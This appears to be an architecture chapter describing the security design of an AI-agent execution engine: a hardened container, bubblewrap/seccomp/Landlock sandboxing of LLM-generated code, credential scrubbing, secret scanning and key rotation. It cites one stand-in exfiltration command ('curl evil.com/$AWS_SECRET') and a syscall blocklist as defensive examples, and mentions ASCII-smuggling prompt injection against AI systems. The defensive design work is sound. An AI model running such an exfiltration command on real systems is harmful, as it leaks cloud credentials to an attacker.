


## Security & Deployment — The Two-Ring Trust Model

The engine's defining architectural decision is a **nested trust model**. The engine process is the *trusted zone*; untrusted, LLM-generated code runs **one ring deeper** inside a bubblewrap sandbox. The container itself is hardened so that even the trusted engine has a small blast radius on the shared host kernel.

```mermaid
flowchart TB
    subgraph HOST["Host kernel shared"]
        subgraph CONTAINER["Docker container — hardened, TRUSTED zone"]
            direction TB
            ENG[Engine process uid 1000 non-root]
            subgraph RING["bwrap inner ring — UNTRUSTED agent code"]
                direction TB
                R1[bubblewrap fresh user pid net mount ns]
                R2[seccomp BPF blocklist]
                R3[Landlock fs ACL workspace rw only]
                CODE[LLM-generated bash and python]
            end
            ENG --> RING
            R1 --> R2 --> R3 --> CODE
        end
    end
    CONTAINER -. cap_drop ALL no-new-privileges read_only rootfs .-> HOST
    CONTAINER -. tailored seccomp profile and systempaths unconfined .-> HOST
```

### Ring 0 — the hardened container

From `docker-compose.yml`: `cap_drop: ALL`, `security_opt: no-new-privileges`, `read_only: true` rootfs (only `/tmp:exec` + `/data` volume are writable), runs as non-root `uid 1000`. A **tailored seccomp profile** (`seccomp/engine.json` = Docker's default **plus** the namespace/mount syscalls bwrap needs: `clone, clone3, unshare, setns, mount, umount2, pivot_root, keyctl, …`) lets bwrap build the inner sandbox without `CAP_SYS_ADMIN`. `systempaths=unconfined` un-masks `/proc` so the inner sandbox can mount a fresh one. The container is bound to `127.0.0.1:8000` (the orchestrator fronts it).

### Ring 1 — the inner sandbox (untrusted agent code)

Every LLM-driven command passes the **bypass-immune permission pipeline** first — hardcoded denials → 26-validator AST bash analysis → dangerous-target gate → dangerous-removal gate, none overridable by any rule/mode/hook/approval (the pipeline implementation is documented in full in [Sandbox](#sec-50-sandbox-md)) — then runs inside three concentric OS-level rings:
- **bubblewrap** — fresh user/pid/ipc/mount/**net** namespaces (`--unshare-net`: no network by default), ro-bind `/usr,/lib,/bin`, rw-bind only the per-session `/workspace`, `--die-with-parent`.
- **seccomp-BPF** — a strict blocklist (`ptrace, mount, unshare, setns, chroot, pivot_root, bpf, kexec, keyctl, process_vm_*, perf_event_open`; adds socket syscalls when network is denied; kills on arch mismatch). `clone` is deliberately *not* blocked or every fork dies.
- **Landlock** — a generated ctypes wrapper self-restricts the filesystem before `execvp` (`/workspace` rw, system dirs ro+exec).

Each layer degrades gracefully if unavailable, but the entry points are **fail-closed**: the executor refuses to run unsandboxed rather than fall back to the host kernel.

### The defense layers, end to end



The first six stages (hardcoded denials → 26 validators → dangerous-target gate → dangerous-removal gate → user rules → mode/matrix) are the permission pipeline; that pipeline's implementation — the bash validators, command classification, the permission matrix and modes — is documented in full in the Sandbox chapter (see [Sandbox](#sec-50-sandbox-md)). This chapter owns only how those stages chain into the OS-level rings and the egress decision.

### Credential & content security (defense in depth)

- **The engine holds no provider keys.** All model/embedding credentials live in citadel; the engine carries only the citadel token. So agent code that reads the env finds no `ANTHROPIC_API_KEY`.
- **subprocess_env** scrubs AWS/GCP/Azure/OIDC creds from every child env (the contract: *never mutate `os.environ`* — return a fresh scrubbed copy), defeating `curl evil.com/$AWS_SECRET` and SDK auto-discovery.
- **External-connector credentials** never reach thread/agent code — `ad.execute` resolves them internally; their full lifecycle (MultiFernet at rest, best-effort RFC 7009 revoke on disconnect, product-driven custody over the SDK `/assets/*` API) is documented in [Asset Directory & Channels](#sec-56-asset-directory-channel-md).
- **The egress proxy** (when enabled) injects credentials via TLS-MITM so the real API key is never exposed to LLM-generated code; values are never logged.
- **Secret scanning** (36 gitleaks-derived rules) gates every memory-ingest write and every log line; on detection only *labels* are surfaced, never the matched secret text.
- **Unicode sanitization** middleware strips invisible/bidi/tag characters from every HTTP body, defeating "ASCII smuggling" prompt injection.

### Authentication & key rotation

Every request authenticates with `x-engine-key` (`sk-sept-…`), stored only as a constant-time-compared SHA-256 hash and **hot-rotatable** with zero downtime via the `/admin/install-pending-key` overlap-window mechanism; the auth model and its rotation protocol are documented in full in [Server / Bootstrap / Auth](#sec-30-integration-server-md). Security-relevant durability note: the live hash is persisted to `$SEPTEMBER_HOME/credentials/engine_key_hash` (atomic `os.replace` write) so a rotation survives a container restart, and a corrupt hash file is ignored rather than bricking boot.

### Deployment topology



- **prod** target: the hardened, unprivileged engine (above). Durable state lives under `SEPTEMBER_HOME` (`brain.sqlite` plus `config/ credentials/ skills/ plugins/ workspaces/ sidechains/ results/ cache/ tmp/ log/`), backed by the mounted `/data` volume; `/catalog` is a read-only mount of platform agents/skills/tools/core-soul.
- **test** target: `platform: linux/amd64` (prod parity; runs under QEMU on Apple Silicon) and `privileged: true` (bwrap needs full kernel access for namespaces); QEMU x86_64 can't load seccomp BPF, so `tests/conftest.py` probes and drops the seccomp_fd.
- **Config surface is tiny** (the engine is code-driven, not config-driven): `CDT_URL`/`CDT_KEY` (citadel), `MAX_TOKENS`, `SEPTEMBER_HOME`, `SQLITE_DB_PATH`, `CATALOG_DIR`, `LC_BATCH_INTERVAL_HOURS`, plus 16 feature-gate booleans (each enumerated with its default in `.env.example`) and the asset-directory vars (`AD_ENCRYPTION_KEY`, `SEPTEMBER_REGISTRY_URL`). Model vars (`LLM_MODEL`, `EMBEDDING_MODEL`/`EMBEDDING_DIM`, planner/light/dispatch/fallback/LC) are pure optional overrides — defaults live in `src/herald/defaults.py` and every resolved id is checked against the citadel-synced catalog at boot. **Every field validates and boot hard-fails on any error with one aggregated report** (`ConfigError`); `CDT_URL`+`CDT_KEY` are the only required values.
- **TTL-to-heartbeat ratios are principled**: a liveness TTL derives from the heartbeat that feeds it — **3x for fast heartbeats** (20s heartbeat → 60s TTL: one missed beat is jitter, two a warning, three dead) and **24x for slow polls** (10min poll → 4h TTL: wide tolerance so a transient outage never reaps healthy state). Any new liveness TTL in citadel/engine bridging must pick one of these ratios and say which in a comment (mirrored in `src/config.py`). Retention policies (conversation TTL, asset-log retention, media-provenance staleness) are not liveness TTLs and set their own windows.
